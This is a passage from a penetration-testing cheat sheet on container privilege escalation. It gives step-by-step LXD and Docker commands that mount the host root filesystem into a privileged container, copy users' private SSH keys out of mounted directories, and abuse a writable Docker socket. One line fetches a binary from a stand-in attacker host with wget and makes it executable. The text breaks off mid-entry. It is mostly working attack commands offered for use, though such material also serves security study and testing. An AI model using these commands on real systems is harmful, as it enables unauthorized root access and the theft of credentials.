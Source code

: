 ## Cron Frequency Analysis
- **Timestamp Analysis**: Examines backup file timestamps to determine cron frequency.  
  `ls -la /dmz-backups/ | head -10`

# Container Privilege Escalation

Containers (LXC, Docker, Kubernetes) provide isolation but misconfigurations allow privilege escalation through container escapes and host filesystem access.

## LXC/LXD Exploitation

### LXD Group Check
- **LXD Membership**: Verifies lxd group membership for container privilege escalation.  
  `id | grep lxd`

### Container Creation
- **Import Template**: Imports Ubuntu template for privileged container creation.  
  `lxc image import ubuntu-template.tar.xz --alias ubuntutemp`
- **List Images**: Shows available LXC images for container creation.  
  `lxc image list`
- **Create Privileged Container**: Initializes privileged container with host access.  
  `lxc init ubuntutemp privesc -c security.privileged=true`
- **Mount Host Root**: Mounts host root filesystem into container for access.  
  `lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true`
- **Start Container**: Launches privileged LXC container.  
  `lxc start privesc`
- **Execute Container Shell**: Spawns shell in privileged container with host access.  
  `lxc exec privesc /bin/bash`
- **Access Host Files**: Navigates to mounted host filesystem as root.  
  `ls -l /mnt/root`

## Docker Exploitation

### Docker Group Check
- **Docker Membership**: Verifies docker group membership for container control.  
  `id | grep docker`
- **List Images**: Shows available Docker images for container creation.  
  `docker image ls`

### Shared Directory Abuse
- **Find Mounted Volumes**: Identifies host directories mounted in container.  
  `ls -la / | grep -v proc`
- **Extract SSH Keys**: Copies private SSH keys from mounted host directories.  
  `cat /hostsystem/home/user/.ssh/id_rsa > user.priv`

### Docker Socket Abuse
- **Find Socket**: Locates Docker socket file for daemon communication.  
  `find / -name "docker.sock" 2>/dev/null`
- **Check Socket Permissions**: Verifies Docker socket is writable for privilege escalation.  
  `ls -la /var/run/docker.sock`
- **Download Docker Binary**: Downloads Docker binary if not present in container.  
  `wget https://attacker:443/docker -O /tmp/docker && chmod +x /tmp/docker`
- **List Containers**: Uses socket to list running Docker containers.  
  `/tmp/docker -H unix:///app/docker.sock ps`
- **Create Privileged Container**: Spawns privileged container with host root mount.  
  `/tmp/docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app`
- **Execute in Container**: Spawns shell in privileged Docker container.  
  `/tmp/docker -H unix:///app/docker.sock exec -it container_id /bin/bash`
- **Access Host Root**: Navigates to mounted host root filesystem.  